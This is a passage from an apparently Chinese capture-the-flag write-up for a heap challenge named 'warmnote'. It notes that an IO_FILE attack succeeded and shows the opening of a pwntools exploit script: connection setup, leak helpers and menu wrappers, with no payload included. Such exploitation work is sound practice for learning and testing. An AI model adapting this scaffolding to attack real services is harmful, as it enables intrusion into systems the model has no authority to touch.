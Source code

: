 至此 iofile 攻击成功，执行exit即可完成利用

```python
# -*- encoding: utf-8 -*- 
import os 
from pwn import * 
binary = './warmnote'
os.system('chmod +x %s'%binary)
context.update( os = 'linux', arch = 'amd64',timeout = 1)
context.binary = binary
context.log_level = 'debug'
elf = ELF(binary)
libc = elf.libc
DEBUG = 1
if DEBUG:
    libc = elf.libc
    p = process(binary)
else:
    host = ''
    port = ''
    p = remote(host,port)

l64 = lambda            : ras(u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')))
l32 = lambda            : ras(u32(p.recvuntil('\xf7')[-4:].ljust(4,'\x00')))
uu64= lambda a = 6      : ras(u64(p.recv(a).ljust(8,'\x00')))
uu32= lambda a = 4      : ras(u32(p.recv(a).ljust(4,'\x00')))
rint= lambda x = 12     : ras(int( p.recv(x) , 16))
sla = lambda a,b        : p.sendlineafter(str(a),str(b))
sa  = lambda a,b        : p.sendafter(str(a),str(b))
lg  = lambda name,data  : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)
se  = lambda payload    : p.send(payload)
rl  = lambda            : p.recv()
sl  = lambda payload    : p.sendline(payload)
ru  = lambda a          : p.recvuntil(str(a))

def ras( data ):
    lg('leak' , data)
    return data

def dbg( b = null):
    if (b == null):
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p,'b %s'%b)

def cmd(num):
    sla('>>',num)

def add(size , text = 'a\n' , data = 'a\n'):
    cmd(1)
    sla('Size: ' , size)
    sa('Title: ' , text)
    sa('Note: ' , data)

def edit(idx , text):
    cmd(4)
    sla('Index: ' , idx)
    sa('Note: ' , text)

def show(idx ):
    cmd(2)
    sla('Index: ' , idx)

```
